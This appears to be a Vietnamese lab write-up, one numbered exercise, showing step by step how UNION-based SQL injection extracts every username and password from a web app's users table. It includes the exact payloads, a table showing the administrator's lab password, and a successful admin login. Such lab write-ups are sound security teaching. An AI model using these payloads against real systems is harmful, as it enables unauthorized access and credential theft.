





## 🔐 Câu 9: SQL Injection - Lấy thông tin đăng nhập từ bảng users

### 🎯 Mục tiêu
Khai thác SQL injection để lấy thông tin đăng nhập của tất cả người dùng và administrator từ bảng users.
<div align="center">
  
  <br>
  <em>Hình 9: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>
### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Kiểm tra giao diện và xác định lỗ hổng
- ✅ Truy cập vào trang web và kiểm tra các điểm có thể bị tấn công SQL injection
- ✅ Xác định các form input hoặc parameter có thể bị khai thác

#### 🔸 Bước 2: Xác định số cột trong truy vấn
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+'abc','def'--
```

> **📊 Kết quả:**
- ✅ Xuất hiện 2 dòng với nội dung "abc" và "def"
- ✅ Chứng minh truy vấn gốc có đúng 2 cột
- ✅ Xác nhận có thể sử dụng UNION SELECT để khai thác
<div align="center">
  
  <br>
  <em>Hình 10: Minh họa kết quả</em>
</div>
<div align="center">
  
  <br>
  <em>Hình 11: Minh họa kết quả</em>
</div>

#### 🔸 Bước 3: Lấy thông tin đăng nhập từ bảng users
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+username,+password+FROM+users--
```

> **📊 Kết quả:**
- ✅ Hiển thị tất cả thông tin tài khoản của cả người dùng lẫn admin
- ✅ Lấy được danh sách đầy đủ username và password
<div align="center">
  
  <br>
  <em>Hình 12: Minh họa kết quả</em>
</div>

### 🚨 Thông tin tài khoản bị lộ
```bash
┌───────────────┬─────────────────────────┐
│ Username      │ Password                │
├───────────────┼─────────────────────────┤
│ Administrator │ g6ksy8lysmaig2jiuxz0   │
└───────────────┴─────────────────────────┘
```

#### 🔸 Bước 4: Thực hiện đăng nhập
- 🔑 Sử dụng thông tin tài khoản administrator đã lấy được
- ✅ Thực hiện đăng nhập thành công với quyền administrator
  <div align="center">
  
  <br>
  <em>Hình 13: Minh họa kết quả</em>
</div>


### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng SQL injection để lấy toàn bộ thông tin đăng nhập từ bảng users, bao gồm cả tài khoản administrator.

---

